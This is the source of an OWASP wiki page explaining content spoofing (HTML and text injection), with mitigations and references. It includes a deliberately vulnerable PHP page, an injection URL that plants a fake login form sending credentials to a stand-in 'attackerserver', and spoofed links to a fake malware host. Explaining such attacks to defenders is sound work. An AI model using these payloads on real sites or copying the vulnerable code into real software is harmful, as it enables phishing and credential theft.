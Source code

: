 ```yaml
---
layout: col-sidebar
title: Content Spoofing
author: Andrew Smith
contributors: Jmanico, Wichers, D0ubl3 h3lix, Rishu Ranjan, ADubhlaoich, Arnout Engelen
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing

---
```


{% include writers.html %}

## Description

Content spoofing, also referred to as _content injection_, "arbitrary
text injection" or _virtual defacement_, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust.

The impact of a content spoofing attack strongly depends on the context:
user-supplied information that is reflected in a way that is correctly
escaped and clearly visually marked, such as in error messages, may be
harmless. On the other hand, input that is not clearly visually
distinguised from the 'valid' content may be used in social engineering
attacks, and when the input is not correctly escaped it may even
contain 'active' components, allowing attacks similar to
[Cross-site Scripting (XSS)](/xss).

> Attack Type: Client-Side

## Risk Factors

Content spoofing attacks can be relatively easy to detect in vulnerable
applications. To successfully execute an attack based on content
spoofing, the attacker also needs to trick the victim into clicking
a malicious link, for example via targeted communication or by doing SEO
injection in a way that search engines crawl and index crafted URLs
with falsified messages.

## Audit Guideline

Text injection can be easily found if user input (either via parameters
or directly in the URL) is reflected in the page response.

## Applicable Industries

- A business entity selling one type of product as a major business function

For example, Taxi hailing business, Online shopping business, Online service business

- A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

- Malicious competitors
- Disgruntled employees
- Unsatisfied customers
- Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site Scripting (XSS)](/xss). While XSS
uses `<script>` and other techniques to run JavaScript, content spoofing uses other techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
let's assume no output encoding is being implemented:

1. Attacker discovers injection vulnerability and decides to spoof a login form
2. Attacker crafts malicious link, including their injected HTML content, and sends it to a user via email
3. The user visits the page due to the page being located within a trusted domain
4. The attacker's injected HTML is rendered and presented to the user asking for a username and password
5. The user enters a username and password, which are both sent to the attackers server

- A simple PHP page containing an injection vulnerability via the `name` parameter:

```php
<?php
    $name = $_REQUEST ['name'];
?>
<html>
    <h1>Welcome to the Internet!</h1>
    <br>
    <body>
        Hello, <?php echo $name; ?>!
        <p>We are so glad you are here!</p>
    </body>
</html>
```

The page functionality can be tested by making the following GET request
to the page: `http://127.0.0.1/vulnerable.php?name=test`

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named `login.php` on the attacker's server via
POST.

```
http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
name="password" /><br /><input type="submit" value="Login" /></form><!--
```

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1. An attacker identifies a web application that gives recommendations to its users on whether they should buy or sell a particular stock
2. The attacker identifies a vulnerable parameter
3. The attacker crafts a malicious link by slightly modifying a valid request
4. The link containing the modified request is sent to a user and they clicks the link
5. A valid webpage is created using the attackers malicious recommendation and the user believes the recommendation was from the stock website

**Valid Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now`

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now`

Other example:

**Modified Page**

`http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.`

### Email Spoofing via User Input Injection / Content Spoofing via Auto-Linking

In addition to traditional text injection within user interfaces, attackers can exploit user-controlled input fields that are incorporated verbatim into automated emails. Certain email clients (e.g.: Gmail) automatically detect domain-like text or URLs and convert them into clickable links - a process known as auto-linking.

This can result in content spoofing or email spoofing, even if the application properly escapes HTML. For example, an attacker may supply a value such as `www.evilsiteexample.com/gift.exe` in a field like "Full name" or "Project name". The application sends a legitimate email from its own domain (e.g.: `hello@realnameorg.org`), and the recipient sees a clickable link pointing to an attacker-controlled host.

The impact is significant: users may receive what appear to be official invitations or notifications, but links lead to phishing or malware delivery sites. Because the email originates from a trusted domain, the likelihood of user interaction is higher than with typical phishing attempts.

**Mitigations / Recommendations:**
- Sanitize or normalize user input included in email bodies, stripping or encoding URL-like patterns to prevent auto-linking.
- Contextualize user-supplied values in templates to reduce the risk that auto-linked text appears as an actionable call-to-action.
- Validate or whitelist input for sensitive fields that are rendered in email content.

**Valid Email Content**

`You've been invited to PROJECT`

`FULLNAME has invited you to (...)`

**Modified Email Content**

`You've been invited to www.evilsiteexample.com` (rendered as clickable link - blue color typically)

`Download www.evilsiteexample.com/gift.exe - Congratulations!! has invited you to (...)` (rendered as clickable link - blue color typically)

## Related [Controls](https://owasp.org/www-community/controls/)

- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

- [CAPEC - 148](http://capec.mitre.org/data/definitions/148.html)
- [WASC - Content Spoofing](http://projects.webappsec.org/w/page/13246917/Content%20Spoofing)
- [Content Injection Attack](http://itlaw.wikia.com/wiki/Content_injection_attack)
- [CERT Advisory on Malicious HTML Tags](http://www.cert.org/advisories/CA-2000-02.html)
- OWASP's [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [HTML Code Injection and Cross-site Scripting](http://www.technicalinfo.net/papers/CSS.html)

[Category:Injection](https://owasp.org/www-community/Injection_Flaws)

